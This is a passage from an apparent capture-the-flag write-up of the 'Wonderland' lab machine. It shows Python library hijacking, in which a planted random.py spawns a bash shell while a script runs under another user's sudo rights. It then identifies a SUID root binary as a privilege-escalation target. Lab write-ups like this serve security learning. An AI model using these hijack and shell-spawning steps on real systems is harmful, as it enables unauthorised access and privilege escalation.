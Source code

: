 We can't write to the file due to not having sufficient permissions. We do observer that it imports the `random` python library. 

We can utilise a technique called python library hijacking to hijack the `random` library and replace it with out own code. Utilising this technique we can inject code to spawn a shell and get access to the `rabbit` user. 

Lets write a new python file `random.py`, co-located with the `walrus_and_the_carpenter.py` file to hijack the `random` library via the `import random` statement. Using [GTFOBins](https://gtfobins.github.io/) we grab a snippet for spawning a shell using python and write our hijack code

```python
import os; os.system("/bin/bash")
```

Now we use alice's sudo privileges to run `walrus_and_the_carpenter.py` using the `rabbit` account

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
rabbit@wonderland:~$ 
```

Success! We've managed to move laterally into the `rabbit` user account.

## PATH hijacking

Lets now see whats in rabbit's home directory

```
rabbit@wonderland:~$ cd /home/rabbit/
rabbit@wonderland:/home/rabbit$ ll
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 ./
drwxr-xr-x 6 root   root    4096 May 25  2020 ../
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty*
```

There is a binary `teaParty`.

Some interesting things to note about the permissions for this file. It's owned by `root` and it has two `special` flags set. One for user, the `SUID` flag, and one for group, the `SGID` flag. The `SUID` flag set for a file always executes as the user who owns the file, regardless of the user passing the command. The `SGID` flag allows the file to be executed as the group that owns the file (similar to SUID). This means when we run the binary, it runs a `root`. This is a very good candidate for privesc to `root`

Lets try and run it.

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Tue, 18 Oct 2022 11:47:08 +0000
Ask very nicely, and I will give you some tea while you wait for him

Segmentation fault (core dumped)
```
Interesting, it reports a segmentation fault, which is usually indicative that the binary could be exploited for code injection. 
